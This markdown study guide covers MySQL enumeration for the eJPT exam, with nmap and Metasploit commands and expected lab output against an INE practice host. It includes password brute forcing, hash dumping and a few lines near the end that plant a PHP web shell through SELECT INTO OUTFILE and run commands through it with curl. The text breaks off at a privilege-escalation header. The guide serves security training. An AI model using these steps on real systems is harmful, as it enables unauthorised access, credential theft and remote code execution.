

# 🗃️ MySQL Enumeration - Complete Database Assessment Guide

**Complete guide for MySQL database enumeration and vulnerability assessment using multiple tools and techniques**  
**Location:** `05-service-enumeration/mysql-enumeration-complete.md`

---

## 📋 Table of Contents
1. [What is MySQL Enumeration?](#🎯-what-is-mysql-enumeration)
2. [Installation and Setup](#📦-installation-and-setup)
3. [Basic Usage and Syntax](#🔧-basic-usage-and-syntax)
4. [Command Line Options](#⚙️-command-line-options)
5. [Real Lab Examples](#🧪-real-lab-examples)
6. [eJPT Exam Focus](#🎯-ejpt-exam-focus)
7. [Common Issues & Troubleshooting](#⚠️-common-issues--troubleshooting)
8. [Integration with Other Tools](#🔗-integration-with-other-tools)
9. [Documentation and Reporting](#📝-documentation-and-reporting)
10. [Additional Resources](#📚-additional-resources)

---

## 🎯 What is MySQL Enumeration?

MySQL enumeration is the **systematic process** of gathering comprehensive information about MySQL database servers to identify potential security weaknesses and attack vectors.

### 🔍 Core Components of MySQL Enumeration:

**Phase 1: Service Discovery**
- Identify MySQL services on target networks
- Detect non-standard ports and configurations
- Determine service availability and responsiveness

**Phase 2: Version Detection and Fingerprinting**
- Extract MySQL version information
- Identify underlying operating system
- Analyze server capabilities and features

**Phase 3: Authentication Analysis**
- Test for weak, default, or blank passwords
- Enumerate valid user accounts
- Analyze authentication mechanisms

**Phase 4: Database Structure Discovery**
- List accessible databases and schemas
- Enumerate tables, columns, and relationships
- Identify sensitive data locations

**Phase 5: Privilege Assessment**
- Analyze user privileges and permissions
- Test for administrative access
- Identify privilege escalation opportunities

**Phase 6: File System Interaction**
- Test file read/write capabilities
- Analyze directory permissions
- Identify potential paths for system compromise

---

## 📦 Installation and Setup

### 🛠️ Prerequisites Checklist:
- ✅ Kali Linux or penetration testing distribution
- ✅ Metasploit Framework (latest version)
- ✅ Nmap with MySQL NSE scripts
- ✅ MySQL client tools
- ✅ Network access to target MySQL service

### 🔧 Installation Process:

#### Step 1: System Update and Basic Tools
```bash
# Update system packages
apt update && apt upgrade -y

# Install MySQL client tools
apt install mysql-client -y

# Install additional database tools
apt install mariadb-client default-mysql-client -y
```

#### Step 2: Metasploit Framework Setup
```bash
# Install Metasploit Framework (if not pre-installed)
apt install metasploit-framework -y

# Start PostgreSQL database service
systemctl start postgresql
systemctl enable postgresql

# Initialize Metasploit database
msfdb init
```

#### Step 3: Verification and Testing
```bash
# Verify MySQL client installation
mysql --version
# Expected output: mysql  Ver 15.1 Distrib 10.6.x-MariaDB

# Verify Metasploit installation
msfconsole --version
# Expected output: Framework Version: 6.x.x-dev

# List available MySQL Nmap scripts
nmap --script-help mysql* | head -20
# Shows available MySQL enumeration scripts
```

#### Step 4: Database Configuration
```bash
# Start Metasploit console
msfconsole -q

# Check database connection status
db_status
# Expected output: [*] Connected to msf. Connection type: postgresql.

# Update Metasploit modules
msfupdate
```

---

## 🔧 Basic Usage and Syntax

### 📊 Complete Enumeration Workflow:



### 🎯 Core Command Patterns:

#### Service Discovery Pattern:
```bash
# Pattern: nmap [scan_type] [port_specification] [target]
nmap -sS -sV -p 3306 target_ip

# Pattern: nmap [scripts] [port] [target]
nmap --script mysql-info -p 3306 target_ip
```

#### Metasploit Module Pattern:
```bash
# Pattern: use auxiliary/[category]/mysql/[module_name]
use auxiliary/scanner/mysql/mysql_version

# Pattern: set [OPTION] [value]
set RHOSTS target_ip
set USERNAME root
set PASSWORD password

# Execute the module
run
```

#### MySQL Client Pattern:
```bash
# Pattern: mysql -h [host] -u [user] -p[password] [database]
mysql -h 192.168.1.100 -u root -p

# Pattern: mysql [connection_options] -e "[SQL_QUERY]"
mysql -h target -u root -p -e "SHOW DATABASES;"
```

---

## ⚙️ Command Line Options

### 🔍 Nmap MySQL Scripts Reference:

| Script Name | Primary Function | Skill Level | eJPT Relevance |
|-------------|------------------|-------------|----------------|
| `mysql-info` | **Server information extraction** | Beginner | ⭐⭐⭐⭐⭐ |
| `mysql-empty-password` | **Test for blank passwords** | Beginner | ⭐⭐⭐⭐⭐ |
| `mysql-users` | **User account enumeration** | Intermediate | ⭐⭐⭐⭐ |
| `mysql-databases` | **Database listing** | Intermediate | ⭐⭐⭐⭐ |
| `mysql-variables` | **Configuration variables** | Advanced | ⭐⭐⭐ |
| `mysql-audit` | **Security audit checks** | Advanced | ⭐⭐⭐ |
| `mysql-dump-hashes` | **Password hash extraction** | Advanced | ⭐⭐⭐⭐ |

#### Practical Usage Examples:
```bash
# Basic information gathering (Always start here)
nmap --script mysql-info -p 3306 demo.ine.local

# Authentication testing (Most critical for eJPT)
nmap --script mysql-empty-password -p 3306 demo.ine.local

# User enumeration (Requires valid credentials)
nmap --script mysql-users --script-args mysqluser=root,mysqlpass=twinkle -p 3306 demo.ine.local

# Database discovery (Essential for data extraction)
nmap --script mysql-databases --script-args mysqluser=root,mysqlpass=twinkle -p 3306 demo.ine.local
```

### ⚔️ Metasploit MySQL Modules Reference:

| Module Category | Module Name | eJPT Priority | Description |
|----------------|-------------|---------------|-------------|
| **Scanner** | `mysql_version` | 🔥 **CRITICAL** | Version detection and fingerprinting |
| **Scanner** | `mysql_login` | 🔥 **CRITICAL** | Brute force authentication testing |
| **Scanner** | `mysql_hashdump` | 🔥 **CRITICAL** | Password hash extraction |
| **Scanner** | `mysql_file_enum` | ⚠️ **HIGH** | File system enumeration |
| **Scanner** | `mysql_writable_dirs` | ⚠️ **HIGH** | Writable directory discovery |
| **Scanner** | `mysql_schemadump` | ⚠️ **HIGH** | Database schema extraction |
| **Admin** | `mysql_enum` | 🔥 **CRITICAL** | Comprehensive information gathering |
| **Admin** | `mysql_sql` | 🔥 **CRITICAL** | SQL query execution |

#### Complete Module Usage Template:
```bash
# Template for any MySQL module
use auxiliary/[category]/mysql/[module_name]
show options                    # Display all available options
set RHOSTS target_ip           # Set target host(s)
set USERNAME discovered_user   # Set username (if known)
set PASSWORD discovered_pass   # Set password (if known)
set VERBOSE true              # Enable detailed output
run                           # Execute the module
```

### 🖥️ MySQL Client Advanced Options:

| Option | Function | eJPT Usage Example |
|--------|----------|-------------------|
| `-h hostname` | **Remote host connection** | `mysql -h 192.168.1.100 -u root -p` |
| `-P port` | **Non-standard port** | `mysql -h target -P 33060 -u root -p` |
| `-u username` | **User specification** | `mysql -h target -u admin -p` |
| `-p[password]` | **Password (prompt if empty)** | `mysql -h target -u root -ptwinkle` |
| `-e "query"` | **Execute single query** | `mysql -h target -u root -p -e "SELECT version();"` |
| `-B` | **Batch mode (tab-separated)** | `mysql -B -h target -u root -p -e "SHOW DATABASES;"` |
| `-N` | **No column names in output** | `mysql -N -h target -u root -p -e "SELECT user FROM mysql.user;"` |

---

## 🧪 Real Lab Examples

### 🎯 Example 1: Complete Discovery and Authentication Workflow
**Scenario**: Initial target assessment and credential discovery

```bash
# === PHASE 1: TARGET REACHABILITY TEST ===
ping -c 4 demo.ine.local
```
**Expected Output:**
```
PING demo.ine.local (192.89.45.3) 56(84) bytes of data.
64 bytes from demo.ine.local (192.89.45.3): icmp_seq=1 ttl=64 time=0.111 ms
64 bytes from demo.ine.local (192.89.45.3): icmp_seq=2 ttl=64 time=0.052 ms
64 bytes from demo.ine.local (192.89.45.3): icmp_seq=3 ttl=64 time=0.068 ms
64 bytes from demo.ine.local (192.89.45.3): icmp_seq=4 ttl=64 time=0.040 ms

--- demo.ine.local ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3077ms
rtt min/avg/max/mdev = 0.040/0.067/0.111/0.026 ms
```
**Analysis**: ✅ Target is reachable with excellent response times (<1ms)

```bash
# === PHASE 2: SERVICE DISCOVERY ===
nmap demo.ine.local
```
**Expected Output:**
```
Nmap scan report for demo.ine.local (192.89.45.3)
Host is up (0.00021s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:c0:59:2d:03 (Unknown)
```
**Analysis**: ✅ MySQL service detected on default port 3306

```bash
# === PHASE 3: VERSION DETECTION ===
msfconsole -q
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306      - Scanning IP: 192.89.45.3
[+] 192.89.45.3:3306      - 192.89.45.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
[*] 192.89.45.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
**Analysis**: ✅ MySQL 5.5.61 on Ubuntu 14.04 (potentially vulnerable older version)

```bash
# === PHASE 4: AUTHENTICATION ATTACK ===
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Found remote MySQL version 5.5.61
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:''
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'root'
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'admin'
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'twinkle'
[+] 192.89.45.3:3306 - 192.89.45.3:3306 - Success: 'root':'twinkle'
[*] 192.89.45.3:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
**Critical Success**: 🎯 **CREDENTIALS FOUND: root:twinkle**

### 🗄️ Example 2: Comprehensive Database Information Gathering
**Scenario**: Extracting detailed server configuration and capabilities

```bash
# === PHASE 5: COMPREHENSIVE ENUMERATION ===
use auxiliary/admin/mysql/mysql_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output (Detailed Analysis):**
```
[*] Running module against 192.89.45.3

[*] 192.89.45.3:3306 - Running MySQL Enumerator...
[*] 192.89.45.3:3306 - Enumerating Parameters
[*] 192.89.45.3:3306 - MySQL Version: 5.5.61-0ubuntu0.14.04.1
[*] 192.89.45.3:3306 - Compiled for the following OS: debian-linux-gnu
[*] 192.89.45.3:3306 - Architecture: x86_64
[*] 192.89.45.3:3306 - Server Hostname: demo.ine.local
[*] 192.89.45.3:3306 - Data Directory: /var/lib/mysql/
[*] 192.89.45.3:3306 - Logging of queries and logins: OFF
[*] 192.89.45.3:3306 - Old Password Hashing Algorithm: OFF
[*] 192.89.45.3:3306 - Loading of local files: ON
[*] 192.89.45.3:3306 - Deny logins with old Pre-4.1 Passwords: OFF
[*] 192.89.45.3:3306 - Allow Use of symlinks for Database Files: YES
[*] 192.89.45.3:3306 - Allow Table Merge: YES
[*] 192.89.45.3:3306 - SSL Connection: DISABLED
[*] 192.89.45.3:3306 - SSL Connect: DISABLED
[*] 192.89.45.3:3306 - Enumerating Accounts:
[*] 192.89.45.3:3306 - List of Accounts with Password Hashes:
[*] 192.89.45.3:3306 - 	User: root Host: localhost Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: root Host: demo.ine.local Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: root Host: 127.0.0.1 Password Hash: *A0E23B565BACCE3E70D223915ABF25542540144
[*] 192.89.45.3:3306 - 	User: debian-sys-maint Host: localhost Password Hash: *F4E71A08E02883688230B992EEAC70BC598FA723
[*] 192.89.45.3:3306 - 	User: filetest Host: localhost Password Hash: *81F5E21E354D70D8446CDAA731AEBFB6AF209E18
[*] 192.89.45.3:3306 - 	User: ultra Host: localhost Password Hash: *827841258900DAA81738418E11B73EB49659BFDD3
```

**🔍 Security Analysis:**
- ⚠️ **HIGH RISK**: Local file loading enabled (potential LFI)
- ⚠️ **HIGH RISK**: SSL disabled (cleartext communication)
- ⚠️ **MEDIUM RISK**: Query logging disabled (no audit trail)
- ✅ **GOOD**: Old password hashing disabled
- 🎯 **CRITICAL**: 6 user accounts with extractable password hashes

### 🔓 Example 3: SQL Query Execution and Database Exploration
**Scenario**: Manual database exploration and data extraction

```bash
# === PHASE 6: DIRECT SQL EXECUTION ===
use auxiliary/admin/mysql/mysql_sql
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Interactive SQL Session:**
```
[*] 192.89.45.3:3306 - Sending statement: 'select version()'...
[*] 192.89.45.3:3306 - | 5.5.61-0ubuntu0.14.04.1 |
[*] 192.89.45.3:3306 - Command completed successfully.
```

**Manual Database Enumeration Commands:**
```sql
-- Show all databases
SHOW DATABASES;

-- Display current user privileges
SHOW GRANTS FOR CURRENT_USER();

-- List all user accounts
SELECT host, user, password FROM mysql.user;

-- Show database file locations
SELECT @@datadir;

-- Test file read capabilities
SELECT LOAD_FILE('/etc/passwd');
```

### 📂 Example 4: File System Reconnaissance
**Scenario**: Testing file system access and write permissions

```bash
# === PHASE 7: FILE SYSTEM ENUMERATION ===
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```
**Expected Output (Key Findings):**
```
[*] 192.89.45.3:3306 - Login...
[+] 192.89.45.3:3306 MySQL - Logged in to '' with 'root':'twinkle'
[*] 192.89.45.3:3306 MySQL - querying with 'SELECT * FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'mysql' AND TABLE_NAME = 'user';'
[+] 192.89.45.3:3306 - 192.89.45.3:3306 MySQL - Table doesn't exist so creating it.
[+] 192.89.45.3:3306 - 192.89.45.3:3306 MySQL - querying with 'CREATE TABLE tqTVyWoQ (brute int);'
[+] 192.89.45.3:3306 - /tmp is a directory and exists
[+] 192.89.45.3:3306 - /etc/passwd is a file and exists
[+] 192.89.45.3:3306 - /etc/shadow does not exist
[+] 192.89.45.3:3306 - /root is a directory and exists
[+] 192.89.45.3:3306 - /home is a directory and exists
[+] 192.89.45.3:3306 - /usr/share is a directory and exists
[+] 192.89.45.3:3306 - /var/www/html does not exist
```

### 🔐 Example 5: Password Hash Extraction and Analysis
**Scenario**: Extracting user credentials for offline analysis

```bash
# === PHASE 8: HASH EXTRACTION ===
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF25542540144
[+] 192.89.45.3:3306 - Saving HashString as Loot: debian-sys-maint:*F4E71A08E02883688230B992EEAC70BC598FA723
[+] 192.89.45.3:3306 - Saving HashString as Loot: filetest:*81F5E21E354D70D8446CDAA731AEBFB6AF209E18
[+] 192.89.45.3:3306 - Saving HashString as Loot: ultra:*827841258900DAA81738418E11B73EB49659BFDD3
[*] 192.89.45.3:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 🗂️ Example 6: Database Schema Analysis
**Scenario**: Understanding database structure and relationships

```bash
# === PHASE 9: SCHEMA DISCOVERY ===
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306 - Schema stored in: /root/.msf4/loot/20240711085632_default_192.89.45.3_mysql_schema_549347.txt
[+] 192.89.45.3:3306 - MySQL Server Schema
[*] 192.89.45.3:3306 - Host: 192.89.45.3
[*] 192.89.45.3:3306 - Port: 3306
[*] 192.89.45.3:3306 - ====================
[*] 192.89.45.3:3306 - 
[*] 192.89.45.3:3306 - - DBName: information_schema
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: mysql
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: performance_schema
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: upload
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: vendors
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: videos
[*] 192.89.45.3:3306 -   Tables: []
[*] 192.89.45.3:3306 - - DBName: warehouse
[*] 192.89.45.3:3306 -   Tables: []
```

### ✍️ Example 7: Write Permission Testing
**Scenario**: Testing for potential privilege escalation paths

```bash
# === PHASE 10: WRITE PERMISSION ANALYSIS ===
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS demo.ine.local
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```
**Expected Output (Security-Critical Findings):**
```
[*] 192.89.45.3:3306 - Login...
[*] 192.89.45.3:3306 - Checking /tmp...
[+] 192.89.45.3:3306 - /tmp is writable
[*] 192.89.45.3:3306 - Checking /etc/passwd...
[!] 192.89.45.3:3306 - Can't create/write to file '/etc/passwd/hKntHGFa' (Errcode: 20)
[*] 192.89.45.3:3306 - Checking /etc/shadow...
[!] 192.89.45.3:3306 - Can't create/write to file '/etc/shadow/hKntHGFa' (Errcode: 20)
[*] 192.89.45.3:3306 - Checking /root...
[+] 192.89.45.3:3306 - /root is writable
[*] 192.89.45.3:3306 - Checking /home...
[+] 192.89.45.3:3306 - /home is writable
[!] 192.89.45.3:3306 - Can't create/write to file '/home/hKntHGFa' (Errcode: 13)
[*] 192.89.45.3:3306 - Checking /usr/share...
[!] 192.89.45.3:3306 - Can't create/write to file '/usr/share/hKntHGFa' (Errcode: 13)
[*] 192.89.45.3:3306 - Checking /etc/config...
[!] 192.89.45.3:3306 - Can't create/write to file '/etc/config/hKntHGFa' (Errcode: 2)
[*] 192.89.45.3:3306 - Checking /data...
[!] 192.89.45.3:3306 - Can't create/write to file '/data/hKntHGFa' (Errcode: 2)
[*] 192.89.45.3:3306 - Checking /webdav...
[!] 192.89.45.3:3306 - Can't create/write to file '/webdav/hKntHGFa' (Errcode: 2)
```

**🚨 Critical Security Findings:**
- ✅ **Writable**: `/tmp`, `/root`, `/home` directories
- ❌ **Protected**: `/etc/passwd`, `/etc/shadow` (expected)
- ⚠️ **Risk Assessment**: Potential file upload and privilege escalation opportunities

---

## 🎯 eJPT Exam Focus

### 📊 Essential Skills Distribution for eJPT Success:

| Skill Category | Weight | Difficulty | Exam Frequency |
|----------------|--------|------------|---------------|
| **Service Discovery** | 20% | ⭐⭐ | Very High |
| **Authentication Testing** | 30% | ⭐⭐⭐ | Critical |
| **Database Enumeration** | 25% | ⭐⭐⭐ | High |
| **File System Testing** | 15% | ⭐⭐⭐⭐ | Medium |
| **Schema Analysis** | 10% | ⭐⭐⭐⭐ | Medium |

### 🔥 Critical Commands for eJPT Success:

#### **Tier 1: Must-Know Commands (90% Success Rate)**
```bash
# Service detection - Most basic and essential
nmap -sV -p 3306 target_ip

# Version identification - Always required
use auxiliary/scanner/mysql/mysql_version
set RHOSTS target; run

# Authentication testing - Critical for access
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target; set USERNAME root; set BLANK_PASSWORDS true; run
```

#### **Tier 2: High-Priority Commands (75% Success Rate)**
```bash
# Comprehensive information gathering
use auxiliary/admin/mysql/mysql_enum
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run

# Manual SQL execution for custom queries
use auxiliary/admin/mysql/mysql_sql
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run

# Hash extraction for credential analysis
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
```

#### **Tier 3: Advanced Commands (50% Success Rate)**
```bash
# File system enumeration for privilege escalation
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run

# Schema analysis for understanding database structure
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
```

### 🎓 eJPT Exam Scenarios and Solutions:

#### **Scenario 1: Database Service Discovery**
**Exam Question Type**: "Identify the database service running on the target network"

**Step-by-Step Solution:**
```bash
# Step 1: Network discovery
nmap -sn 192.168.1.0/24

# Step 2: Port scanning for database services
nmap -p 3306,5432,1433,1521 -sV 192.168.1.100

# Step 3: Service verification
nmap --script mysql-info -p 3306 192.168.1.100

# Expected Result: MySQL service identification
```

**Success Criteria:**
- ✅ Correctly identify MySQL service
- ✅ Extract version information
- ✅ Confirm service accessibility

#### **Scenario 2: Authentication Bypass**
**Exam Question Type**: "Gain access to the MySQL database server"

**Solution Approach:**
```bash
# Method 1: Test common credentials
mysql -h target -u root -p
# Try passwords: (blank), root, admin, password

# Method 2: Automated brute force
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

# Method 3: Test for empty passwords
nmap --script mysql-empty-password -p 3306 target
```

**Success Criteria:**
- ✅ Successfully authenticate to MySQL
- ✅ Document discovered credentials
- ✅ Confirm administrative access

#### **Scenario 3: Data Extraction**
**Exam Question Type**: "Extract sensitive information from the database"

**Solution Workflow:**
```bash
# Step 1: Database enumeration
use auxiliary/admin/mysql/mysql_enum
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run

# Step 2: Manual database exploration
use auxiliary/admin/mysql/mysql_sql
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
# Execute: SHOW DATABASES; USE sensitive_db; SHOW TABLES; SELECT * FROM users;

# Step 3: Hash extraction for offline analysis
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root; set PASSWORD discovered_password; set RHOSTS target; run
```

**Success Criteria:**
- ✅ List all available databases
- ✅ Extract user account information
- ✅ Identify sensitive data locations
- ✅ Document password hashes

### 🎯 eJPT Exam Tips and Strategies:

#### **🚀 Time Management (90-minute exam):**
1. **First 15 minutes**: Complete service discovery and port scanning
2. **Next 30 minutes**: Focus on authentication testing and access
3. **Next 30 minutes**: Perform comprehensive enumeration
4. **Final 15 minutes**: Document findings and prepare evidence

#### **🔍 Common Exam Patterns:**
- **Pattern 1**: MySQL running on standard port 3306
- **Pattern 2**: Weak credentials (root:root, root:admin, root:password)
- **Pattern 3**: Multiple databases with varying sensitivity levels
- **Pattern 4**: File system interaction capabilities enabled

#### **⚠️ Exam Pitfalls to Avoid:**
- **Mistake 1**: Skipping version detection (loses points)
- **Mistake 2**: Not testing blank/empty passwords first
- **Mistake 3**: Forgetting to document discovered credentials
- **Mistake 4**: Missing schema enumeration phase

#### **📝 Essential Documentation for eJPT:**
```markdown
# MySQL Assessment Results Template

## Service Discovery
- Target: [IP_ADDRESS]
- Port: 3306/tcp
- Version: MySQL X.X.X
- Status: ACCESSIBLE

## Authentication Results
- Username: root
- Password: [DISCOVERED_PASSWORD]
- Access Level: ADMINISTRATIVE

## Database Enumeration
- Total Databases: [NUMBER]
- Sensitive Databases: [LIST]
- User Accounts: [COUNT]
- Password Hashes: [EXTRACTED_COUNT]

## Security Findings
- Weak Authentication: [YES/NO]
- File System Access: [ENABLED/DISABLED]
- SSL Encryption: [ENABLED/DISABLED]
```

### 🏆 Advanced eJPT Success Strategies:

#### **Strategy 1: Systematic Enumeration**
```bash
#!/bin/bash
# eJPT MySQL Assessment Script
TARGET=$1

echo "[+] Starting MySQL assessment for $TARGET"

# Phase 1: Discovery
nmap -sV -p 3306 $TARGET

# Phase 2: Authentication
msfconsole -x "use auxiliary/scanner/mysql/mysql_login; set RHOSTS $TARGET; set USERNAME root; set BLANK_PASSWORDS true; run; exit"

# Phase 3: If successful, enumerate
if [ $? -eq 0 ]; then
    msfconsole -x "use auxiliary/admin/mysql/mysql_enum; set RHOSTS $TARGET; set USERNAME root; run; exit"
fi
```

#### **Strategy 2: Evidence Collection**
- **Screenshots**: Service detection, successful authentication, enumeration results
- **Command Outputs**: Save all Metasploit module results
- **Hash Files**: Extract and save password hashes
- **Database Schema**: Document discovered databases and tables

---

## ⚠️ Common Issues & Troubleshooting

### 🚫 Issue 1: Connection Refused Errors
**Problem**: Cannot establish connection to MySQL service

**Root Causes:**
- Network connectivity issues
- Firewall blocking connections
- Service not running or misconfigured
- Wrong IP address or port

**Diagnostic Steps:**
```bash
# Step 1: Verify network connectivity
ping -c 3 target_ip

# Step 2: Check if port is open
nmap -p 3306 target_ip

# Step 3: Test with telnet
telnet target_ip 3306

# Step 4: Verify service is MySQL
nmap -sV -p 3306 target_ip
```

**Solutions:**
```bash
# Solution 1: Scan extended port range
nmap -p 1-65535 target_ip | grep mysql

# Solution 2: Check for MySQL on common alternative ports
nmap -p 3306,33060,3307 target_ip

# Solution 3: Test UDP (rare but possible)
nmap -sU -p 3306 target_ip
```

### 🔐 Issue 2: Authentication Failures
**Problem**: Valid service detected but cannot authenticate

**Common Scenarios:**
- Default credentials changed
- Account lockout policies
- Network-based access restrictions
- SSL/TLS requirements

**Systematic Solutions:**
```bash
# Method 1: Test most common credentials first
mysql -h target -u root -p
# Try: (blank), root, admin, password, mysql, test

# Method 2: Comprehensive wordlist attack
use auxiliary/scanner/mysql/mysql_login
set RHOSTS target
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE true
run

# Method 3: Check for anonymous access
mysql -h target

# Method 4: Test with SSL
mysql -h target -u root -p --ssl
```

### 📊 Issue 3: Limited Information Disclosure
**Problem**: Authentication successful but minimal data returned

**Possible Causes:**
- Limited user privileges
- Database access restrictions
- Information schema disabled
- Custom security configurations

**Resolution Strategies:**
```bash
# Step 1: Check current user privileges
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW GRANTS FOR CURRENT_USER();"
run

# Step 2: Test different enumeration approaches
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT user,host FROM mysql.user;"
run

# Step 3: Try alternative information gathering
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT @@version, @@datadir, @@hostname;"
run

# Step 4: Check database permissions
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW DATABASES;"
run
```

### 🛠️ Issue 4: Metasploit Module Failures
**Problem**: Modules crash, hang, or return errors

**Prevention and Solutions:**
```bash
# Solution 1: Update Metasploit database
msfdb reinit

# Solution 2: Update module definitions
msfupdate

# Solution 3: Restart PostgreSQL service
systemctl restart postgresql
msfdb start

# Solution 4: Check module syntax
use auxiliary/scanner/mysql/mysql_version
show options
show missing

# Solution 5: Manual verification
mysql -h target -u root -p -e "SELECT version();"
```

### 🔧 Issue 5: Hash Extraction Failures
**Problem**: Cannot extract password hashes despite administrative access

**Troubleshooting Approach:**
```bash
# Method 1: Verify table access
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT COUNT(*) FROM mysql.user;"
run

# Method 2: Check password column name (varies by MySQL version)
use auxiliary/admin/mysql/mysql_sql
set SQL "DESCRIBE mysql.user;"
run

# Method 3: Manual hash extraction
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT host,user,password FROM mysql.user WHERE password != '';"
run

# Method 4: Alternative for newer MySQL versions
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT host,user,authentication_string FROM mysql.user;"
run
```

---

## 🔗 Integration with Other Tools

### 🔄 Primary Tool Integration Workflows:

#### **Workflow 1: Discovery → Enumeration → Exploitation**
```bash
# Phase 1: Network Discovery (Nmap)
nmap -sS -sV -p 3306 192.168.1.0/24 -oN mysql_discovery.txt

# Phase 2: Service Enumeration (Metasploit)
msfconsole -x "
    use auxiliary/scanner/mysql/mysql_version;
    set RHOSTS file:mysql_targets.txt;
    spool mysql_versions.log;
    run;
    spool off;
    exit"

# Phase 3: Authentication Testing (Hydra + Metasploit)
hydra -L users.txt -P passwords.txt mysql://target:3306
# Follow up with Metasploit for successful credentials

# Phase 4: Hash Cracking (John the Ripper)
john mysql_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=mysql-sha1
```

#### **Workflow 2: MySQL → Web Application Testing**
```bash
# Step 1: Gain MySQL access
use auxiliary/scanner/mysql/mysql_login
set RHOSTS webserver_ip; set USERNAME root; run

# Step 2: Test for web-accessible files
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT LOAD_FILE('/var/www/html/config.php');"
run

# Step 3: Upload web shell (if writable)
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT '<?php system(\$_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php';"
run

# Step 4: Test web shell access
curl "http://webserver_ip/shell.php?cmd=id"
```

#### **Workflow 3: MySQL → Privilege Escalation**
```bash
# Step 1: Test file system capabilities
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root; set PASSWORD discovered_pass; run

# Step 2: Check for UDF (User Defined Functions) opportunities
use auxiliary/admin/mysql/mysql_sql
set SQL "SHOW VARIABLES LIKE 'plugin_dir';"
run

# Step 3: Test library upload capabilities
use auxiliary/scanner/mysql/mysql_writable_dirs
set USERNAME root; set PASSWORD discovered_pass; run

# Step 4: Attempt privilege escalation
